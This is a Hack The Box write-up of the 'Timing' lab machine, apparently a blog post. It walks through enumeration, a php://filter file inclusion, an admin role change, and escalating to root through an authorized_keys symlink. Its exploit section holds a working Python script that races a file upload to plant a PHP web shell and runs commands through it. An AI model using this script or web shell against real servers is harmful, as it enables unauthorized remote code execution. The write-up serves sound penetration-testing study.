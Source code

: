 ```yaml
---
layout: single
title: Timing [boot2root] - Hack The Box
excerpt: "Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite."
date: 2022-1-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-timing/timing-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - boot2root
tags:  
  - local file inclusion
  - custom exploitation
  - enumeration parameters
  - ssh keygen
  - syblolic links
---
```


<h1 align="center">
<img src="/assets/images/htb-writeup-timing/timing-banner.png">
</h1>

Timing is a fun machine where after network and directory enumeration we discover image.php we fuzz this php file with ffuf and find a ?img= parameter which if we pass /etc/passwd the server tells us “hacking attempt”. If we try it with php://filter with base64 encoding we will have successfully a LFI Vulnerability. Reading the /etc/passwd file the aaron user shows up which we use for login in the web server with default credentials(aaron:aaron). After gaining access to the web server we will see the edit profile menu from which you can get access to admin user. After that a new menu shows up admin panel which allows us to upload an image. After upload we must find the filename with php payload and enumerate to /opt folder which contains a backup file which contains a git repository. Enumerate the folder and we find a git logs which shows the database configuration changes(password for ssh). Login with aaron user name and the password with ssh. At the root part we have access to /usr/bin/netutils as root which allows us to download a file from another server with http and ftp. First create a symbolic link to /root/.ssh/authorized_keys and a new private & public rsa key to the attacking machine. Start a http server from the attacking machine and download it from netutils. That means when the file comes to the timing machine the authorized keys we will overwrite.

## Network Enumeration

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:5c:40:d7:c9:fe:ff:a8:83:c3:6e:cd:60:11:d2:eb (RSA)
|   256 18:c9:f7:b9:27:36:a1:16:59:23:35:84:34:31:b3:ad (ECDSA)
|_  256 a2:2d:ee:db:4e:bf:f9:3f:8b:d4:cf:b4:12:d8:20:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_Requested resource was ./login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.81 seconds
```


## Directory Enumeartion

```
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/login.php            (Status: 200) [Size: 5609]                               
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]                
/image.php            (Status: 200) [Size: 0]                                  
/header.php           (Status: 302) [Size: 0] [--> ./login.php]                
/footer.php           (Status: 200) [Size: 3937]                               
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]                
/css                  (Status: 301) [Size: 306] [--> http://timing.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://timing.htb/js/]    
/logout.php           (Status: 302) [Size: 0] [--> ./login.php]  
```

## Fuzz parameters image.php

Fuzzing image.php and find an img parameter which from that we will read other .php files and more. <br><br>
<img src="/assets/images/htb-writeup-timing/fuzzing_parameters.png">


## Identify the user from /etc/passwd using php://filter

Identify the LFI vulnerability but with php://filter because the server not allows us to pass special characters like <b>/../../../</b> Read the /etc/passwd and identify the aaron user.

<img src="/assets/images/htb-writeup-timing/lfi_phpfilter.PNG">

<img src="/assets/images/htb-writeup-timing/aaron_user.PNG">

## Login with aaron for the both box values at login page

Login with aaron user (aaron:aaron)<br><br>
<img src="/assets/images/htb-writeup-timing/login_default_creds.PNG">


## Change user role to admin

When we read the profile_update.php we will see this piece of code which allows us to pass the role=1 parameter and change from user2 to admin. <br><br>
<img src="/assets/images/htb-writeup-timing/rolechange.PNG">

<img src="/assets/images/htb-writeup-timing/change_to_admin.PNG">

<img src="/assets/images/htb-writeup-timing/show_adminpanel.PNG">

## Exploit 

At the exploit part to get the RCE. I create this exploit in python combined with php code which i read it from upload.php with LFI from web server. The upload.php creates a hash and append it in the front of the filename($hash_image.jpg). For the exploit we must to upload and generate at the same to find out the name of the file .

```php
<?php
$upload_dir = "images/uploads/";
$file = "exploit.jpg";

$file_name = md5('$file_hash'. time()) . '_' . $file;
$target_file = $upload_dir . $file_name;
echo $file_name;
echo PHP_EOL;
?>
```

```python
#!/usr/bin/python3
import requests
import os
import time
import threading


#Current URL=http://timing.htb
def upload_post_req():
	burp0_url = "http://timing.htb:80/upload.php"
	burp0_cookies = {"PHPSESSID": "lo4d1l8c8df2b7lgr7vrutethl"} #Change this cookie to our admin cookie
	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------358100878512268049331587005052", "Origin": "http://timing.htb", "Connection": "close", "Referer": "http://timing.htb/avatar_uploader.php"}
	burp0_data = "-----------------------------358100878512268049331587005052\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"exploit.jpg\"\r\nContent-Type: txt/php\r\n\r\n<?php system($_GET['cmd']); ?>\n\r\n-----------------------------358100878512268049331587005052--\r\n"
	r=requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
	
def fname_generator():
	print("Running...")
	for i in range(15):
		os.system("php -f fname_generator.php >> output.txt")
		if(i==6):
			threading.Thread(target=upload_post_req).start()
		time.sleep(1)


def response_c(filename):
	VECTOR="http://timing.htb/images/uploads/"
	r=requests.get(VECTOR+str(filename))
	return r.status_code

def injector(filename, cmd):
	VECTOR="http://timing.htb/image.php?img=images/uploads/"
	r=requests.get(VECTOR+filename+"&cmd="+cmd)
	print(r.text)

if __name__ == "__main__":	

	fname_generator()
	
	hash_names=[]
	f = open("output.txt", "r")
	for i in range(15):
		hash_names.append(f.readline().strip("\n"))
	f.close()
	
	for filename in hash_names:
		if str(response_c(filename))=="200":
			os.system("clear")
			print("Success!")
			while(1):
				cmd=input("> ")
				injector(filename, cmd)
				if cmd=="exit":
					break
	
	os.system("rm output.txt")
```

<img src="/assets/images/htb-writeup-timing/run_exploit.png">

<img src="/assets/images/htb-writeup-timing/run_exploit_success.png">


## Download zip backup from /opt folder

Enumerate and download the backup file from opt directory. <br>
<img src="/assets/images/htb-writeup-timing/download_and_unzip.PNG">

## Find git changes and discover aaron ssh password

Find the git changes and login with aaron user to ssh. <Br>
<img src="/assets/images/htb-writeup-timing/git_log_ssh_creds.PNG">

<img src="/assets/images/htb-writeup-timing/login_ssh.PNG">



## Root

At the root part we have perms to run the /usb/bin/netutils with allows us to download a file from http and ftp server. to find out the name of the file <br>
<img src="/assets/images/htb-writeup-timing/sudo_l.PNG">

Example of netutils <br>
<img src="/assets/images/htb-writeup-timing/run_netutils.PNG">

1. Create a symbolic link to /root/.ssh/authorized_keys <br>
2. Create a private and public key in attacking machine. <br>
3. Rename the public key <br>
4. Download the file from timing machine <br>
5. Login from attacking machine with private key to root user.
	<br>
	
	
<img src="/assets/images/htb-writeup-timing/priv_esc.PNG">
